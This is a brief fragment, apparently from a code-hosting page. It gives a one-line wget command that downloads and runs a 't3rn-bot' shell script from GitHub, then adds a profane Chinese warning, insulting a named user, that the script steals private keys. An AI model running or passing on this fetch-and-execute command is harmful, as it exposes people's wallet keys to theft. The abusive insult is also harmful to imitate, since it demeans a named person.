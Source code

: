 
wget -O t3rn-bot.sh https://raw.githubusercontent.com/yinghao888/t3rn-bot/refs/heads/main/t3rn-bot.sh && sed -i 's/\r//' t3rn-bot.sh && chmod +x t3rn-bot.sh && ./t3rn-bot.sh

操你麻痹的Rambeboy,大家注意一下这个傻逼的脚本，偷私钥的

